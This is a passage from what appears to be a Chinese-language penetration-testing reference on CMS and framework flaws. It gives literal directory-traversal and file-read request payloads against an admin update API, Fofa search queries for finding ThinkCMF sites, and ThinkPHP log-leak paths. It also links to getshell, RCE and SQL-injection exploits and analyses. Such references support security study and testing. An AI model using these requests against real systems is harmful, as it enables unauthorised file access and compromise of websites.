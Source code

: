 - POC | Payload | exp
    ```
    1、目录遍历注意 POST 数据包 rules 参数值需要 URL 编码
    POST /admin.html?s=admin/api.Update/node
    rules=%5B%22.%2F%22%5D

    2、文件读取,后面那一串是 UTF8 字符串加密后的结果。计算方式在 Update.php 中的加密函数。
    /admin.html?s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34
    ```

---

### ThinkCMF

> 官网: https://www.thinkcmf.com/

> Fofa: title="ThinkCMF"

**ThinkCMF 任意内容包含漏洞**
- 相关文章
    - [ThinkCMF 任意内容包含getshell漏洞](https://www.hacking8.com/bug-web/ThinkCMF/ThinkCMF-%E6%A1%86%E6%9E%B6%E4%B8%8A%E7%9A%84%E4%BB%BB%E6%84%8F%E5%86%85%E5%AE%B9%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E.html)

- POC | Payload | exp
    - [jas502n/ThinkCMF_getshell](https://github.com/jas502n/ThinkCMF_getshell)

---

### ThinkPHP

> 官网: http://www.thinkphp.cn/

#### <5

**相关文章**
- [thinkphp一些版本的通杀漏洞payload](http://www.moonsec.com/post-853.html)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [Thinkphp2.1爆出重大安全漏洞](https://www.cnblogs.com/milantgh/p/3639178.html)
- [ThinkPHP3.2.3框架实现安全数据库操作分析](https://xz.aliyun.com/t/79)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP3.2 框架sql注入漏洞分析(2018-08-23)](https://xz.aliyun.com/t/2629)
- [Thinkphp框架 3.2.x sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38901-1-12.html)
- [【漏洞通报】ThinkPHP3.2.x RCE漏洞通报](https://mp.weixin.qq.com/s/_4IZe-aZ_3O2PmdQrVbpdQ)

**日志泄露**
```bash
/Application/Runtime/Logs/Home/16_09_06.log # 其中 Application 可能会变，比如 App
/Runtime/Logs/Home/16_09_06.log             # 年份_月份_日期
/Runtime/Logs/User/16_09_06.log             # 年份_月份_日期
```
- [whirlwind110/tphack](https://github.com/whirlwind110/tphack) - Thinkphp3/5 Log 文件泄漏利用工具

#### 5

**相关文章**
- [ThinkPHP 5.x (v5.0.23及v5.1.31以下版本) 远程命令执行漏洞利用 (GetShell) ](https://www.vulnspy.com/cn-thinkphp-5.x-rce/)
- [代码审计 | ThinkPHP3.x、5.x框架任意文件包含](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=39586)
- [ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)
- [ThinkPHP v5.1.22曝出SQL注入漏洞](https://nosec.org/home/detail/1821.html)
- [ThinkPHP-漏洞分析集合 ](https://xz.aliyun.com/t/2812)
- [ThinkPHP 5.1.x SQL注入漏洞分析](https://www.freebuf.com/vuls/185420.html)
- [ThinkPHP框架 < 5.0.16 sql注入漏洞分析](https://bbs.ichunqiu.com/thread-38284-1-13.html)
- [ThinkPHP 5.x 远程命令执行漏洞利用过程](https://laucyun.com/a9142c328b103cd86a3715bd5073c4be.html)
- [ThinkPHP漏洞总结](http://zone.secevery.com/article/1165)
